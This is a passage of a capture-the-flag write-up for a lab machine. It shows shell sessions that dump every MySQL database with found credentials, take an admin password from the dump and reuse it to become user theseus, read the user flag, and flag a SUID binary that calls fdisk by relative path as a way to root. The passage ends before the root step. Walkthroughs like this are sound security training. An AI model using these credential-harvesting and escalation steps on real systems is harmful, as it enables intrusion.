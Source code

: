 Using mysqldump, we can dump the mysql databases.

```
www-data@ubuntu:/var/www/Magic$ mysqldump --user=theseus --password=iamkingtheseus --all-databases
```

Viewing the dump, we are able to find a pair of credentials for the admin user.
```
INSERT INTO `login` VALUES (1,'admin','Th3s3usW4sK1ng');
```
However, using this set of credentials, we realize that the user admin does not exist on this machine. Neither are we able to dump out the mysql database files using this set of credentials.

```
www-data@ubuntu:/var/www/Magic$ su admin
su admin
No passwd entry for user 'admin'
www-data@ubuntu:/var/www/Magic$ mysqldump --user=admin --password=Th3s3usW4sK1ng --all-databases
mysqldump --user=admin --password=Th3s3usW4sK1ng --all-databases
mysqldump: [Warning] Using a password on the command line interface can be insecure.
mysqldump: Got error: 1045: Access denied for user 'admin'@'localhost' (using password: YES) when trying to connect
```

We will then try to su to the theseus using the password for admin. Fortunately, we are able to escalate to the theseus user.

```
www-data@ubuntu:/var/www/Magic$ su - theseus
su - theseus
Password: Th3s3usW4sK1ng

theseus@ubuntu:~$ id
id
uid=1000(theseus) gid=1000(theseus) groups=1000(theseus),100(users)
```

### Obtaining user flag

```
theseus@ubuntu:~$ cat /home/theseus/user.txt
cat /home/theseus/user.txt
<Redacted user flag>
```
### Privilege Escalation to root

Using linpeas, we are able to discover a binary (/bin/sysinfo) with SGID bit that is set. We also realize that /bin/sysinfo is executing fdisk and we can potentially impersonate the fdisk.

```
-rwsr-x--- 1 root users 22K Oct 21  2019 /bin/sysinfo (Unknown SUID binary)
  --- It looks like /bin/sysinfo is executing cat and you can impersonate it (strings line: cat /proc/cpuinfo) (https://tinyurl.com/suidpath)
  --- It looks like /bin/sysinfo is executing fdisk and you can impersonate it (strings line: fdisk -l) (https://tinyurl.com/suidpath)
  --- It looks like /bin/sysinfo is executing lshw and you can impersonate it (strings line: lshw -short) (https://tinyurl.com/suidpath)
```
